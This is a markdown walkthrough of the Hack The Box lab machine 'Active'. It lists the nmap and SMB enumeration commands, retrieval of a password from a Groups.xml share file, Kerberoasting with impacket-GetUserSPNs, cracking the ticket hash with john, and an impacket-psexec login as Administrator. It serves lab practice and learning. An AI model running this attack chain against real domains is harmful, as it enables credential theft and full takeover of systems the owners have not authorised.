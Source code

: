 # Active Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -sC -sV -oA active -Pn 10.10.10.100``
### or
``nmap -p- -sV -oA fullactive 10.10.10.100``
### and 
``nmap --script safe -445 10.10.10.100``

### DNS recon
``gobuster dns -d active.htb -t 25 -w /opt/seclists/Discovery/DNS/subdomains-top1million-20000.txt``

``dnsrecon -d 10.10.10.100 -r 10.0.0.0/8``

``nslookup ``

``server 10.10.10.100``

``127.0.0.1``

### SMB recon
``smbmap -H 10.10.10.100``

``enum4linux -a -u "" -p "" 10.10.10.100 ``

``enum4linux -a -u "guest" -p "" 10.10.10.100``

``smbclient -U '%' -L //10.10.10.100``

``smbclient -U 'guest%' -L //10.10.10.100``

### SMB to not miss anything in the share
``smbmap -R Replication -H 10.10.10.100``
``smbmap -R Replication -H 10.10.10.100 -A Groups.xml -q``
### or 
``smbclient //10.10.10.100/Replication``
``RECURSE ON``
``PROMPT OFF``
``mget *``

# ${{\color{purple}Initial Foothold}}\ $

### I found a password in the Groups.xml file but what to do afterwards on a box where the port 3389 is not open ?

# ${{\color{purple}Exploitation}}\ $

 ### 1) Find the users of the box 
``/usr/bin/impacket-GetADUsers -all -dc-ip 10.10.10.100 active.htb/svc_tgs``


![image](https://user-images.githubusercontent.com/123066149/217771016-d0786329-3bb6-4532-bb18-921fc95d9590.png)

### 2) List the user's rights on the shares  
Before 
![image](https://user-images.githubusercontent.com/123066149/217771660-8735c7cd-af60-48b9-982c-64d1fcedb241.png)
After
![image](https://user-images.githubusercontent.com/123066149/217771490-866b2fb7-5e4f-41b8-874a-e279cf7386ab.png)

### 3) Try a connection ( need Windows )

`runas /netonly /user:active.htb\svc_tgs cmd`

and list the shares :

`dir \\10.10.10.100\Users`

### 4) Try to get UserSPNs :

`/usr/bin/impacket-GetUserSPNs -request -dc-ip 10.10.10.100 active.htb/SVC_TGS` 

# ${{\color{purple}Privilege Escalation}}\ $

`/usr/bin/impacket-GetUserSPNs -request -dc-ip 10.10.10.100 active.htb/SVC_TGS` 

![image](https://user-images.githubusercontent.com/123066149/217774864-66183e11-96a7-4a42-819e-62e3e25316d9.png)

`john --wordlist=/usr/share/wordlists/rockyou.txt -format=krb5tgs ./krb5tgs.txt`

![image](https://user-images.githubusercontent.com/123066149/217775198-6f5eb564-77e6-4d6f-b49b-d23072f98973.png)

`/usr/bin/impacket-psexec active.htb/Administrator@10.10.10.100`

![image](https://user-images.githubusercontent.com/123066149/217775392-8a49d703-f564-4ac3-a139-34f4fccc0c69.png)

# ${{\color{purple}Points of Improvement}}\ $

* Add the domain ``active.htb`` directly from the ``host`` file.
* Before doing a ``locate`` command, use the ``updatedb`` command to update the database.
* Make an nmap script to know the version of smb ``nmap --script safe -445 10.10.10.100``
* Remember to change the ``/``in the command : ``/usr/bin/impacket-GetUserSPNs -request -dc-ip 10.10.10.100 active.htb/SVC_TGS``
Otherwise the command does not work     
